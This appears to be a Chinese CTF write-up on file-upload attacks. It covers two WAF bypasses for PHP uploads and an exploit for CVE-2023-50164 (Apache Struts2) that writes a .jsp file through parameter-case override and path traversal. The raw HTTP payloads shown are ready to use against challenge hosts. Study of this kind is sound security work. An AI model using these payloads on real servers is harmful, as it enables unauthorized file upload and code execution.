[](https://cdn.nlark.com/yuque/0/2024/png/29034274/1706944960016-ece19cab-d318-4e74-b0bb-18f9803e6c91.png#averageHue=%23d7d7d7&clientId=u74e75591-cad2-4&from=paste&height=787&id=ucc37ba42&originHeight=1180&originWidth=1689&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=125433&status=done&style=none&taskId=ueb5e9323-0d22-4a82-8876-f5d794c94c5&title=&width=1126)

##### PHP 解析特性绕过

通过提交多个上传请求，利用 waf 和 php 解析不一致绕过。

```plain
POST /upFile.php HTTP/1.1
Host: 39.106.145.5:7777
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------2477136673360361791890184650
Content-Length: 395
Origin: http://39.106.145.5:7777
Connection: close
Referer: http://39.106.145.5:7777/
Cookie: sl-session=OAWDFEAwv2UukbVHDXo51w==
Upgrade-Insecure-Requests: 1

-----------------------------2477136673360361791890184650
Content-Disposition: form-data;name="file"; filename="one.php"
Content-Type: application/octet-stream
-----------------------------2477136673360361791890184650
Content-Disposition: form-data;name="file"; filename="one.png"
Content-Type: application/octet-stream

here
-----------------------------2477136673360361791890184650--
```

[](https://cdn.nlark.com/yuque/0/2024/png/29034274/1706945197953-50ef674c-4ce8-4350-bd14-2fba712f1068.png#averageHue=%23fbfafa&clientId=u74e75591-cad2-4&from=paste&height=473&id=u57dd6958&originHeight=709&originWidth=1622&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=129550&status=done&style=none&taskId=u9cce0c83-0fa4-40cf-ae6c-bd5c46dd058&title=&width=1081.3333333333333)  
调换顺序后被 WAF 检测到  
[](https://cdn.nlark.com/yuque/0/2024/png/29034274/1706945236040-db71ca3e-a7b2-4f6d-9a6d-117ecc0ee744.png#averageHue=%23f8f3f3&clientId=u74e75591-cad2-4&from=paste&height=682&id=u92107468&originHeight=1023&originWidth=1639&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=328605&status=done&style=none&taskId=u04119ae2-5682-4191-9f3c-b159ca7b406&title=&width=1092.6666666666667)  
那么可以推测服务器的接收只看第一个请求信息，但 WAF 检测的时候会看最后的内容，如果我们把请求头写道内容中会被检测出来达到绕过效果吗，测试后发现检测不通过  
[](https://cdn.nlark.com/yuque/0/2024/png/29034274/1706945664382-c65ba9b4-2795-4396-8ba9-0db0c71f94b3.png#averageHue=%23f8f3f3&clientId=u74e75591-cad2-4&from=paste&height=699&id=trP9l&originHeight=1048&originWidth=1596&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=324362&status=done&style=none&taskId=u9c5ce7d5-4868-4023-8567-f911169168c&title=&width=1064)  
并且两个请求信息不能间隔超过一个回车否则也是失败  
[](https://cdn.nlark.com/yuque/0/2024/png/29034274/1706945800459-8d29a222-85ff-466d-aa96-32a13de2a483.png#averageHue=%23f8f3f3&clientId=u74e75591-cad2-4&from=paste&height=681&id=uca4146af&originHeight=1021&originWidth=1587&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=322431&status=done&style=none&taskId=ua515ac51-ebb9-4729-a7c5-32a712ed539&title=&width=1058)

##### filename 绕过

在 filename 后面加入空格

```plain
POST /upFile.php HTTP/1.1
Host: 39.106.145.5:7777
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------2477136673360361791890184650
Content-Length: 233
Origin: http://39.106.145.5:7777
Connection: close
Referer: http://39.106.145.5:7777/
Cookie: sl-session=OAWDFEAwv2UukbVHDXo51w==
Upgrade-Insecure-Requests: 1

-----------------------------2477136673360361791890184650
Content-Disposition: form-data; name="file"; filename= "one.php"
Content-Type: application/octet-stream

123
-----------------------------2477136673360361791890184650--
```

[](https://cdn.nlark.com/yuque/0/2024/png/29034274/1706945856780-794327e6-ac5d-458c-abb9-b3b7a6ae8166.png#averageHue=%23fafafa&clientId=u74e75591-cad2-4&from=paste&height=453&id=ub3826a01&originHeight=679&originWidth=1542&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=117199&status=done&style=none&taskId=u1d1ebf26-ea79-4f66-ac8e-1de51d5a244&title=&width=1028)

## **CVE-2023-50164**

通过一道 RWCTF 中的 CTF 题目来学习该文件漏洞上传漏洞，参考文章如下

> [https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/#%E5%88%86%E6%9E%90](https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/#%E5%88%86%E6%9E%90)

了漏洞的原理在于**Map 的储存结构，在 Map 结构中大写会进行优先处理，注意大写当时被卡很久**

> {Upload=File{name='Upload'},  
> UploadFileName=File{name='UploadFileName'},  
> UploadContentType=File{name='UploadContentType'}}  
> Map 结构中大写会进行优先处理，所以此时我们再次传入的小写的可以覆盖大写的内容，我们还  
> 可以控制参数的顺序。所以此时我们可以而通过数据的覆盖，来实现目录的绕过。

##### Be-More-Elegant

**给了一个上传文件的功能，上传后会给绝对路径，目前是任意文件都可以上传，但 jsp 和 jspx 文件的访问后回显 500，即使只是 123 都会被屏蔽**  
[](https://cdn.nlark.com/yuque/0/2024/png/29034274/1706336471134-1b0ddde5-3d3c-4f2b-ab82-59c033848041.png#averageHue=%23f1f2d3&clientId=ubad33c55-67d7-4&from=paste&height=591&id=uf791db97&originHeight=887&originWidth=2162&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=72125&status=done&style=none&taskId=u5f0e13d7-7343-48f0-80da-c30448bcbc0&title=&width=1441.3333333333333)  
**代码审计，做了文件流处理**  
[](https://cdn.nlark.com/yuque/0/2024/png/29034274/1706336929172-1a474951-f9a2-44cb-af7a-e128bc07181d.png#averageHue=%23232529&clientId=ubad33c55-67d7-4&from=paste&height=929&id=u4280f97b&originHeight=1394&originWidth=2497&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=306214&status=done&style=none&taskId=u24398915-fdd7-41ff-bd2c-35d7c76e601&title=&width=1664.6666666666667)  
**尝试利用大小写绕过，但内容无法被解析全部被打印出来**  
**利用 CVE-2023-50164**  
**注意该 CVE 要根据代码进行相应变化，特别是标出的两个值，并且 fileUpload 的 F 要大写**  
[](https://cdn.nlark.com/yuque/0/2024/png/29034274/1706355530059-ff067330-c5cb-4a72-9c00-93a1e0d5ec05.png#averageHue=%231f2226&clientId=ubad33c55-67d7-4&from=paste&height=933&id=u494fa96e&originHeight=1399&originWidth=1760&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=255599&status=done&style=none&taskId=uf1445ba5-3732-47ff-9777-8e55376f9de&title=&width=1173.3333333333333)  
构造 payload

```plain
POST /upload.action HTTP/1.1
Host: 47.99.57.31:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------21242332512857643478691364422
Content-Length: 408
Origin: http://47.99.57.31:8080
Connection: close
Referer: http://47.99.57.31:8080/elegant
Cookie: JSESSIONID=C0A792880BA03E5B98EE28FE1000AADA
Upgrade-Insecure-Requests: 1

-----------------------------21242332512857643478691364422
Content-Disposition: form-data; name="FileUpload"; filename="1.jsp"
Content-Type: text/plain

123
-----------------------------21242332512857643478691364422
Content-Disposition: form-data; name="fileUploadFileName";
Content-Type: text/plain

../../../views/header_icon/258.jsp
-----------------------------21242332512857643478691364422--
```

[](https://cdn.nlark.com/yuque/0/2024/png/29034274/1706355503221-f70eef53-3bb3-4d4b-a2b5-c44de02604e3.png#averageHue=%23fbf0e8&clientId=ubad33c55-67d7-4&from=paste&height=765&id=u9a7ec9d6&originHeight=1148&originWidth=1364&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=226445&status=done&style=none&taskId=ub0931b79-0f0f-4f8a-b612-8326cacf218&title=&width=909.3333333333334)
